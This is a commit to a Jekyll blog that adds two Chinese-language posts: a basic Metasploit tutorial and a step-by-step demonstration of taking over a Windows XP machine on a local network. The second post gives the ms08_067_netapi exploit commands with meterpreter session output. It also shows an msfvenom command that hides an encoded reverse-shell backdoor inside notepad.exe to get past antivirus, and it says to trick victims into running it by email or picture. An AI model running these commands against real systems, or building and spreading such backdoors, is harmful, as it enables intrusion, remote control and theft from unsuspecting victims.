

Before and after one commit to tiancode/tiancode.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
msfconsole

````diff
--- /dev/null
+++ b/_posts/2016-4-15-kali-linux-metasploit-base-use.md
@@ -0,0 +1,134 @@
+---
+layout: post
+title: Metasploit的基本使用
+---
+
+[Metasploit](https://www.metasploit.com)可以在Linux、Windows和Mac OS X系统上运行。我假设你已安装了Metasploit，或者你使用的系统是Kali Linux。它有命令行接口也有GUI接口。
+
+我使用的系统是Kali Linux，本文以这个系统为例。
+
+图形用户界面接口：Armitage
+
+![armitage]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 12-00-27.png)
+
+命令行接口：msfconsole
+
+{% highlight shell %}
+# msfconsole
+{% endhighlight %}
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 12-08-45.png)
+
+使用metasploit的基本步骤：
+
+* 运行msfconsole
+* 确定远程主机
+* 找到一个漏洞并使用这个漏洞
+* 配置漏洞选项
+* 入侵远程主机
+
+metasploit内建了很多文档，查看方法：
+
+{% highlight shell %}
+msf > help
+
+msf > help search
+{% endhighlight %}
+
+*********
+
+获得远程主机信息
+
+你可以在mfs中运行nmap命令：
+
+{% highlight shell %}
+msf > nmap -v -sV some_host
+{% endhighlight %}
+
+也可以使用db_nmap，结果输出到metasploit数据库：
+
+{% highlight shell %}
+msf > db_nmap -v -sV some_host
+{% endhighlight %}
+
+更多扫描工具：
+
+{% highlight shell %}
+msf > search portscan
+{% endhighlight %}
+
+列出db_nmap找到的主机：
+
+{% highlight shell %}
+msf > hosts
+{% endhighlight %}
+
+把这些主机加入到目标主机：
+
+{% highlight shell %}
+msf > hosts -R
+{% endhighlight %}
+
+也可以使用set RHOST your_target_ip设置目标IP。
+
+这一步的目的是获得要目标主机的系统信息，为下一步选择漏洞和利用漏洞做准备。
+
+其他扫描漏洞的工具：lynix、maltego、wp-scan等等。
+
+* [安装使用lynis扫描Linux的安全漏洞](http://topspeedsnail.com/How-to-use-lynis-on-linux/)
+* [Wordpress：使用WPScan检测易受攻击的插件和主题](http://blog.topspeedsnail.com/archives/2267)
+
+********
+
+显示metasploit中所有可以利用的模块：
+
+{% highlight shell %}
+msf > show
+msf > show auxiliary
+msf > show exploits
+msf > show payloads
+msf > show encoders
+msf > show nops
+{% endhighlight %}
+
+搜索可以利用的漏洞：
+
+{% highlight shell %}
+msf > search type:exploit
+msf > search CVE-xxxx-xxx
+msf > search cve:2014
+msf > search name:wordpress
+msf > search name:mysql
+msf > search path:scada
+msf > search platform:aix
+msf > search type:post
+msf > search windows type:exploit
+...
+{% endhighlight %}
+
+使用一个漏洞：
+
+{% highlight shell %}
+msf > use exploit/path/to/exploit_name
+{% endhighlight %}
+
+设置payload：
+
+{% highlight shell %}
+msf > show payloads
+msf > set payload path/to/payload
+{% endhighlight %}
+
+入侵：
+
+{% highlight shell %}
+msf > exploit
+{% endhighlight %}
+
+如果没有成功，重新选择漏洞。
+
+### 例子：
+
+*****
+
+[使用Metasploit演示入侵Windows](http://topspeedsnail.com/kali-linux-n-hack-windows-xp/)
--- /dev/null
+++ b/_posts/2016-4-15-kali-linux-n-hack-windows-xp.md
@@ -0,0 +1,107 @@
+---
+layout: post
+title: 使用Metasploit演示入侵Windows
+---
+
+我使用Kali Linux（192.168.0.112）；在同一局域网内有一台运行Windows XP（192.168.0.108）的测试电脑。
+
+使用漏洞入侵windows xp sp3。
+
+启动msfconsole：
+
+{% highlight shell %}
+# msfconsole
+{% endhighlight %}
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 15-24-25.png)
+
+选择一个漏洞：
+
+{% highlight shell %}
+msf > search platform: windows xp sp3
+{% endhighlight %}
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-17-46.png)
+
+exploit/windows/smb/ms08_067_netapi是08年发现的漏洞，等级Great。
+
+查看某个漏洞的详细信息。包含使用方法、支持的平台等等，非常有帮助：
+
+{% highlight shell %}
+msf > info exploit/windows/smb/ms08_067_netapi
+{% endhighlight %}
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-24-32.png)
+
+依次执行如下命令：
+
+{% highlight shell %}
+msf > use exploit/windows/smb/ms08_067_netapi
+> set payload windows/meterpreter/bind_tcp
+> set RHOST 192.168.0.108  (设置目标主机IP地址)
+> exploit
+{% endhighlight %}
+
+如果目标主机有这个漏洞的话，你就可以控制它了；如果没有，尝试使用其他漏洞。
+
+```
+[*] Started bind handler
+[*] Automatically detecting the target...
+[*] Fingerprint: Windows XP SP3 - Service Pack 3 - lang:Chinese
+[*] Selected Target: Windows XP SP3 Chinese (AlwaysOn NK)
+[*] Attempting to trigger the vulnerability...
+[*] Sending stage (751104 bytes) to 192.168.0.108
+[*] Meterpreter session 1 opened (192.168.0.1:41614 -> 192.168.0.108:4444) at 2016-04-15 17:29:32
+
+meterpreter >
+```
+
+现在你就可以控制目标主机了，截屏、录音、视频、下载文件、杀进程等等；使用help查看可以执行的命令。
+
+****
+
+## 演示使用后门程序侵入Windows
+
+原理：在Kali Linux上生成后门程序，然后把它发送给受害者，欺骗受害者运行（使用邮件、图片等等）。难点是需要过杀毒软件和防火墙。
+
+生成后门程序：
+
+我把后门程序隐藏到记事本程序中：notepad.exe
+
+查看Kali Linux的IP：ifconfig（192.168.0.112）
+
+创建后门程序，my_backdoor.exe：
+
+{% highlight shell %}
+# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4445 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > my_backdoor.exe
+{% endhighlight %}
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 18-24-42.png)
+
+上面命令使用加密试图躲过杀毒软件，但是，不要期望它可以生效。使用man msfvenom查看帮助。
+
+把它发送到Windows系统，并运行；如果不能运行换用其他加密方式。
+
+启动msfconsole：
+
+{% highlight shell %}
+# msfconsole
+{% endhighlight %}
+
+```
+use exploit/multi/handler
+
+set LHOST 192.168.0.112
+set LPORT 4445
+set payload windows/meterpreter/reverse_tcp
+show options
+exploit
+```
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-01-13.png)
+
+OK，入侵成功。
+
+![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-08-43.png)
+
+[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)
````
Also changed, not shown: _posts/2016-4-8-hacker-attack-method.md (+6 -0 lines), images/2016/4/Screenshot from 2016-04-15 12-00-27.png (added), images/2016/4/Screenshot from 2016-04-15 12-08-45.png (added), images/2016/4/Screenshot from 2016-04-15 15-24-25.png (added), images/2016/4/Screenshot from 2016-04-15 17-17-46.png (added), images/2016/4/Screenshot from 2016-04-15 17-24-32.png (added), images/2016/4/Screenshot from 2016-04-15 18-24-42.png (added), images/2016/4/Screenshot from 2016-04-15 19-01-13.png (added), images/2016/4/Screenshot from 2016-04-15 19-08-43.png (added), 1 other file.
